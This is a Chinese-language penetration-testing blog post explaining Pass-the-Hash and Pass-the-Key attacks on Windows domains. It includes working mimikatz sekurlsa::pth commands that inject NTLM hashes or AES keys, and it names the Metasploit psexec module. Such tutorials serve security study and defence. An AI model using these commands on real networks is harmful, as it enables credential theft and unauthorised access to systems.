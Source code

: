 ```yaml
---
layout:     post
title:      域渗透相关
date:       2018-12-25
author:     Wh0ale
header-img: img/36s_by_wlop-dcab1m2.jpg
catalog: true
tags:
    - 域渗透
---
```


![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz74hk4llxj21940w6gpa.jpg)

## Pass the Hash (PTH hash传递攻击, 即 Mimikatz hash注入 )

在windows系统中,系统通常不会存储用户登录密码,而是**存储密码的哈希值.**

在我们远程登录系统的时候,实际上向远程传递的就是密码的hash值。

当攻击者获取了存储在计算机上的用户名和密码的hash值的时候(PWDUMP7等)

他虽然不知道密码值,但是仍然可以通过直接连接远程主机,通过传送密码的hash值来达到登录的目的。

工具:

```bash
a. Metasploit - exploit/windows/smb/psexec (XP,2003)
b. xfreerdp (2012r2 http://www.freebuf.com/articles/system/15757.html Hash传递攻击登陆Windows2012远程桌面)
    微软在2014年发布了KB2871997和KB2928120两个补丁,用来阻止域内主机本地用户的网络登录,本地用户的PTH方式已经死掉
然而 , mimikatz实现了在禁用NTLM的环境下仍然可以远程连接。
c.hash injection 
    mimikatz # privilege::debug
    mimikatz # sekurlsa::pth /user:administrator /domain:workgroup /ntlm:d6e1371929886ec1be0b0cf4b101f289 /run:c:\windows\system32\cmd.exe
(sekurlsa::pth 中的pth 即Pass the Hash)
```

## Pass The Key (OverPass-the-Hash)

**当系统安装了KB2871997补丁且禁用了NTLM的时候，那我们抓取到的ntlm hash**

也就失去了作用，但是可以通过pass the key的攻击方式获得权限

```bash
mimikatz "privilege::debug" "sekurlsa::ekeys" 获取用户的aes key
mimikatz "privilege::debug" "sekurlsa::pth /user:用戶a /domain:test.local /aes256:f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c" 注入aes key
```

若dir 查看不了服务器 (测试2008r2域服务器)

查看mimikatz的相关资料发现如下信息:

```bash
ntlm hash is mandatory on XP/2003/Vista/2008 and before 7/2008r2/8/2012 kb2871997 (AES not available or replaceable) ; AES keys can be replaced only on 8.1/2012r2 or 7/2008r2/8/2012 with kb2871997, in this case you can avoid ntlm hash.
```
